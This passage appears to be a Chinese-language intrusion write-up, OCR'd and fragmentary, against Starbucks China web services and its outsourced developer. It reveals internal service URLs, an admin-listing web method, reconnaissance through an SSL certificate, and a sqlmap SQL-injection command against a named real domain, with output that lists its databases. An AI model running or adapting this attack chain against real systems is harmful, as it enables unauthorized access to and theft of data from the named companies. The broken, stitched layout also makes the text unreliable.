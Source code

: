    
    
    // JavaScript Document var domainMSRURL = 'http://218.80.216.34:805/'; var domainSVCURL = "http://218.80.216.34:8010/"; var domianWebURL = "http://218.80.216.34:8012/"; //domainMSRURL = "http://localhost:49960/MSR/"; document.write('

 **#6 这个服务器上的某个.svc怎么那么眼熟呢？不就是开始提到的StarbucksGCService.svc吗？**  
至此，两个关键的WebService都找到了，还有星巴克的后台

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230320134336.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230320134338.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230320134339.png)

Service1.svc 有个 GetAdminList的方法，你懂的，查询出所有后台管理员的信息

  *   *   *   *   *   *   *   *   *   * 

    
    
    public string GetAdminList(int nPageSize, int nPageIndex, out MSR.Model.MSR_Admin[] oAdminList, out int nCount)    {        GetAdminListRequest inValue = new GetAdminListRequest();        inValue.nPageSize = nPageSize;        inValue.nPageIndex = nPageIndex;        GetAdminListResponse retVal = ((IService1)(this)).GetAdminList(inValue);        oAdminList = retVal.oAdminList;        nCount = retVal.nCount;        return retVal.GetAdminListResult;    }

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230320134340.png)

###  **漏洞证明：**

 **  
**

 **#7 以战养战，信息组合**

整理一下发型，梳理一下所有信息，得到关键的因素  
上面所有的信息， 都属于测试环境的，那么接下来就需要突破到真实环境了；  
关键信息点：  
从https://180.153.48.178的SSL证书，得知星巴克的系统是外包给flipscript公司开发的，  
flipscript公司被DeepFocus公司收购了；  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230320134346.png)

 **#8 从flipscript & DeepFocus下手**  
开启神器，发现http://cn.deepfocus.net一枚注入漏洞

  * 

    
    
    python sqlmap.py -u "https://cn.deepfocus.net/tasoap/tasoap.php?key=Fly&id=1" -p key --dbs

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    available databases [20]:                                                                                                                    [*] bugtracker[*] channelx[*] deepfocus[*] dftest[*] dnsw[*] fair[*] ftpusers[*] information_schema[*] mac[*] mmj[*] mysql[*] ra[*] TADB[*] test[*] torres[*] wordpress[*] wx[*] yioulai[*] yioulaisz[*] YOLDB
